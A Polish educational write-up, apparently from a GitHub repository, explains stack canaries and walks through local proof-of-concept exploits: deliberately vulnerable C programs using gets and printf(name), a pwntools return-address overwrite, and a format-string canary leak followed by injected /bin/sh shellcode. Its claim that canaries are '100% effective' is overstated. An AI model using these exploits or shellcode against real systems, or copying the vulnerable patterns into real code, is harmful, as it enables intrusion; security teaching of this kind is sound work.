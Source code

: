 # Stack canary

### 1.1 Opis

Kanarek jest mechanizmem zabezpieczenia stosu. Stara się on zapobiegać zmianie wykonania programu za pomocą nadpisywanie elementów na stosie.

Stack canary albo security cookie to losowa wartość zapisywana na stosie przed adresem powrotu. Przed powrotem wartość ta jest sprawdzana. Jeżeli uległa zmianie przerywane jest działanie programu.

Wartości kanarka mogą być generowane w różny sposób. Mogą to być wartości zawierające elementy takie jak `null byte` czy `terminator chars`, aby zapobiegać nadpisaniu kanarka po nadpisaniu powrotu. W przypadku przepełnienia bufora zapisanie takich znaków jest dość trudne przy użyciu danych funkcji.

Dość popularną strategią jest generacja kanarka w losowy sposób przy inicjalizacji programu i zapis go w zmiennych globalnych. Oczywiście odczytanie takiego kanarka może być możliwe dlatego często jest on paddowany pustymi stronami.

Istnieją też tak zwane `XOR canaries`, czyli kanarki, których wartość to XOR paru losowo wybranych wartości z programu. Dzięki temu nadpisanie takiego kanarka graniczy z cudem.

Jest to defaultowa opcja kompilatora `gcc`, można ją wyłączyć flagą `-fno-stack-protector`. Ochronę funkcji z buforami większymi niż 8 bajtów i używającymi `alloca` włącza `-fstack-protector`. A ochronę wszystkich funkcji włącza `-fstack-protector-all`.

Podobnie zachowuje się `clang`.

Kanarek sprawdza się przeciwko atakom, które nadpisują adres powrotu - ataki typu `ret2libc`, `ropchain` są bezużyteczne bez znajomości kanarka. 

Kanarek nie chroni przed atakami typu `format string`.

### 1.2 Wygląd w assemblerze

Koniec wywołania funkcji z kanarkiem wygląda następująco.

![img_2.png](img/img_7.png)

Do rejestru `eax` ładowany jest aktualny kanarek funkcji. Następnie odejmowany jest on od zapisanego kanarka w `gs:0x14`. W przypadku zgodności kanarków wartość odejmowania to zero.

Wtedy ustawiana jest flaga zero i instrukcja `je` przeskakuję `call` do funkcji mówiącej o błędzie kanarka i wywołanie kończy się normalnie. W odwrotnym przypadku wywoływana jest funkcja, która obsługuje błąd.

### 1.3 Proof of concept - prosta zmiana wykonania

Kanarek jest dobra metodą obrony przed atakami typu `ASLR & PIE/exploit_1`. Ataki bazujące na nadpisaniu adresu powrotu są dobrze łatane przez kanarka stosu. Jest to lepsza metoda niż ASLR, bo w 100% skuteczna.

Oczywiście wyciek pamięci (`arbitrary read`) pozwala bardzo łatwo obejść kanarka po prostu nadpisując w jego miejsce odpowiednią wartość.

Kod aplikacji podatnej jest taki sam, jaki  i exploit.

- **PIE & ASLR**: wyłączony - opcje te pozwalają na stały adres funkcji - ułatwiają exploitacje.
- **CANARY**: wyłączony - jest to idea tego exploitu.

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -z execstack -w -o vuln.o
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void secret() {
    system("sh");
}

void ask_for_name()
{
    char name[12] = {0};
    puts("What's your name?");
    gets(name);
    printf("Hi %s!\n", name);
}

int main()
{
    ask_for_name();
return 0;
}
```

Exploit ten był już opisywany w poprzednich rozdziałach. Ładuje on pod adres powrotu adres funkcji `secret`

Exploit:
```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")


name = b'AAAABBBBCCCCDDDDEEEEFFFF' # inject aaaas till eip
name += b'\xc9\x61\x55\x56' 

p.sendline(name)

p.interactive()

```

W tym przypadku przy kompilacji bez kanarka udaje się dostać shell.

![img.png](img/img_5.png)

A w przypadku kompilacji z kanarkiem nie udaje się - widzimy tutaj błąd, który wyrzucił kanarek.

![img_1.png](img/img_6.png)


### 2.4 Proof of concept - leak kanarka i wykonywalny stos

Istotą tego exploitu będzie pozyskanie wartości kanarka za pomocą format string.

Kod aplikacji podatnej: 

```c
#include <stdio.h>

int main(int argc, char *argv[]) {
    char name[16];
    char purpose[64];

    gets(name);
    printf("Hi!");
    printf(name);
    printf("\n");
    gets(purpose);
    printf("%s",purpose);
    return 0;

}
```

Schemat działania:
- Zlokalizować, którym argumentem pozycyjnym na stosie jest kanarek.
- Zlokalizować element na stosie, który ma stały adres względem drugiego bufora.
- Za pomocą otrzymanego adresu oraz wartości kanarka zbudować shellcode.

Aby otrzymać argumenty bedę używał exploitu format string. Konstrukcja `%15$x` pobierze 15 element ze stosu, liczbę mogę podmieniać.

Podpinam `gdb` do procesu aplikacji i szukam adresu do zatrzymania wykonania. Wybieram adres przed sprawdzeniem kanarka. Widzę też gdzie pominien znajdować się kanarek -`[ebp-0xc]`.

![img.png](img/img.png)

W `gdb` wyświetlam stos i lokalizuję kanarka.

![img_1.png](img/img_1.png)

Kanarek znajduję się w zamierzonym miejscu. Dwa adresy wyżej widzę również adres, który wygląda na adres, który może posłużyć do znalezienia offsetu naszego bufora. Upewniam się ze adres ten jest dobry kilkukrotnie wywołując program i sprawdzając offset od bufora - jest on stały i wynosi `0x108`.

Teraz strzelam w losowy argument na stosie i staram się ustalić gdzie jest kanarek i mój adres.

```c
import * from pwn

p = process("./vuln_2.o")

first_payload = "%20$x%21$x"
```

![img_2.png](img/img_2.png)

Otrzymuje dwa adresy, które znajduję na stosie.

![img_3.png](img/img_3.png)

Kanarek znajduję się na 31 pozycji, a nasz adres na 29. Od drugiego adresu muszę odjąć `0x108` i dodać offset wygenerowany przez elementy przed shellcode.

Gotowy shellcode bedzie wyglądał tak:
```
'aaaa...'+kanarek+adres_shellcode+shellcode
```
Piszę exploit:

```python
from pwn import *

p = process("./vuln_2.o")

first_payload = ",%29$x,%31$x"
p.sendline(first_payload) # wysylam format string do leakowania informacji
gdb.attach(p)
answer = p.recvline().decode("utf-8").split(',') # formatuje informacje
canary = int(answer[2],16) 
offset_address = int(answer[1],16)
buffor_address = offset_address - 0x108 
stuffed_canary = b'a'*64+p32(canary)

shellcode_address = buffor_address + len(stuffed_canary) +4
shellcode = b'\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

second_payload = stuffed_canary + p32(shellcode_address) + shellcode

p.sendline(second_payload)

p.interactive()

```

Został wywołany shell - exploit działa.

![img_4.png](img/img_4.png)

### 1.5 Proof of concept - GOT overwrite z format string

Opis tego exploita znajduje się w następnym rodziale, jest to exploit przed, którym kanarek nie jest w stanie ochronić. Kanarek w żaden sposób nie chroni przed atakami typu format string oraz atakami typu GOT.

### 1.6 Wnioski

Kanarek stosu jest dobrą metodą zabezpieczenia przed nadpisaniem adresu powrotu. Dobrą praktyką jest stosowanie go w funkcjach zawierających bufor.